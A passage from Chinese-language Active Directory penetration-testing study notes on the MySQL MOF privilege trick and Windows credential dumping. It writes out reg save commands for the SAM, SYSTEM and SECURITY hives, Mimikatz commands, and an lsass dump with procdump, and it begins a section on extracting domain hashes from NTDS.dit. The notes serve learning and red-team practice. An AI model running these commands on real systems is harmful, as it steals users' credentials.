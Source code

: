   ```

> 这个好像更早了，大致原理，我理解为**nullevt.mof**每间隔一段时间就会被执行的特性，通过修改这个mof达到获取权限的目的，具体的就不再做搬运仔了

[这篇文章](https://www.freebuf.com/articles/web/243136.html)总结了mysql的利用，关于mysql的文章也很多，我就不做朴实的搬运工了。~~PS.我觉得这个是直接拿别的权限呀...~~

## 0x05 密码获取

> 这里腾讯蓝军的文章占用了很大的篇幅，因为包含了许多基础知识（如lmhash，ntlmhash生成等等），因为在之前整理过的入门篇章已经有了，所以会有一些不一样。还是记录自己不会的，边看边学

### 本地凭据获取

> 这里其实已经在之前的整理过了，重新整理(搬运)一下，看过或者熟悉的可以直接跳过了，这里纯搬指令
>
> 20200714：今天看到了Ateam的文章...没想到和卡巴对抗的情况呀...不过目前太菜还看不懂，先mark一下[文章](https://blog.ateam.qianxin.com/post/zhe-shi-yi-pian-bu-yi-yang-de-zhen-shi-shen-tou-ce-shi-an-li-fen-xi-wen-zhang/#44-%E5%8D%A1%E5%B7%B4%E6%96%AF%E5%9F%BA%E7%9A%84%E5%AF%B9%E6%8A%97)

#### reg转储

```
reg save hklm\sam sam.hive
reg save hklm\system system.hive
reg save hklm\security security.hive
```

#### Mimikatz

```
privilege::debug
token::elevate
lsadump::sam

从lsass.exe进程获取
privilege::debug
sekurlsa::logonpasswords
```

#### Procdump + Mimikatz

```
procdump64.exe  -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe  "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords  full" exit
```

没有明文的原因还是 kb2871997（**之前我还以为这个只和PTH有关，学到啦**）。kb2871997补丁会删除除了wdigest ssp以外其他ssp的明文凭据，但对于wdigest ssp只能选择禁用。用户可以选择将`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\UseLogonCredential`更改为0来禁用。
[\*] 注意：这一段直接粘贴复制的 ~~偶尔搬运一下，方便理解~~

### 域Hash

> 这部分没有手动实现过，所以这里慢慢看，复现一下。导出的方法也很多，这里先上Wing仔的[文章](https://xz.aliyun.com/t/2527)，我就不一一复现了...用两个好用的！

在拿到域控权限后，有时候需要导出域内所有主机的Hash，对应的文件为 `C:\Windows\NTDS\NTDS.dit` 导出所有用户的hash，但是这个是一直被占用的，如果直接去复制会抛出如下错误：
![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/ntds.png)

这时候需要用到**卷影备份**的方法

#### ntdsutil + ntdsdump

直接用本地自带的工具 `ntdsutil`，操作如下
![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/ntdsutil.png)
```